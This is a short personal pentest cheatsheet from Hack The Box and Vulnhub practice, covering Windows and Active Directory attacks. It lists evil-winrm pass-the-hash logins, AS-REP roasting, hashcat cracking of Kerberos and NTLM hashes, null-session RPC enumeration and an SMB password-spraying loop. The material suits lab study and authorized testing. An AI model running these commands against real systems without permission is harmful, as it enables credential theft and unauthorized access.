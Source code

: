 # pentest cheatsheet

> personal cheathsheet populated via my [HTB](https://www.hackthebox.eu/) and [Vulnhub](https://www.vulnhub.com/) experience.

## Windows

- MUST SEE: [VbScrub - Tutorials](https://www.youtube.com/playlist?list=PL3B8L-z5QU-Yw80HOGXXUASBfv_K1WwO5)

### Tools

- [LOLBAS](https://lolbas-project.github.io/#) _(GTFOBins version Windows)_
	+ [GTFOBLookup](https://github.com/nccgroup/GTFOBLookup): offline command line lookup utility
- [PEASS - Privilege Escalation Awesome Scripts SUITE](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite#peass---privilege-escalation-awesome-scripts-suite)
	+ [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) _(Une sorte de LinEnum pour Windows)_
- [mimikatz](https://github.com/gentilkiwi/mimikatz#mimikatz)
- [dnSpy](https://github.com/0xd4d/dnSpy#dnspy---latest-release---%EF%B8%8F-donate): debugger and .NET assembly editor.
- [BloodHound](https://github.com/BloodHoundAD/Bloodhound/wiki): reveal the hidden and often unintended relationships within an Active Directory environment. 

### Shell

- `evil-winrm -i <ip> -u <username> -p <password>`
- PassTheHash: `evil-winrm -i <ip> -u <username> -H <NTLM_HASH>`

```powershell
*Evil-WinRM* PS C:\> NET USER # list users
```

### LDAP

- `ldapsearch -h <IP> -x -s base namingcontexts` 
- `ldapsearch -h <IP> -x -b "<distinguishedName>" | grep "^dn"`

### Kerberos

- `python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py <distinguishedName>/<username> -request -dc-ip <IP> [-no-pass -usersfile users.txt]`
- Kerberos 5 AS-REP etype 23 `hashcat -m 18200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`. See [hashcat wiki](https://hashcat.net/wiki/doku.php?id=hashcat) and [**hackndo** - kerberos as-rep roasting (fr)](https://beta.hackndo.com/kerberos-asrep-roasting/)

### Samba

- `smbclient -L //<IP>/<Sharename> -U "username%password"`
- `for u in $(cat usernames.txt); do echo "User: $u"; smbclient -L //<IP>/ -U "$u%$u"; done`

### RPC

```bash
rpcclient -U "" $IP
<empty password>
rpcclient $> srvinfo       # identify the specific OS version
rpcclient $> enumdomusers  # display a list of users names defined on the server
rpcclient $> getdompwinfo  # get SMB password policy
rpcclient $> querydispinfo # get users info
```

### Misc

- Crack NTML hashes: `hashcat -a 0 -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt`

## Linux

> **TODO**
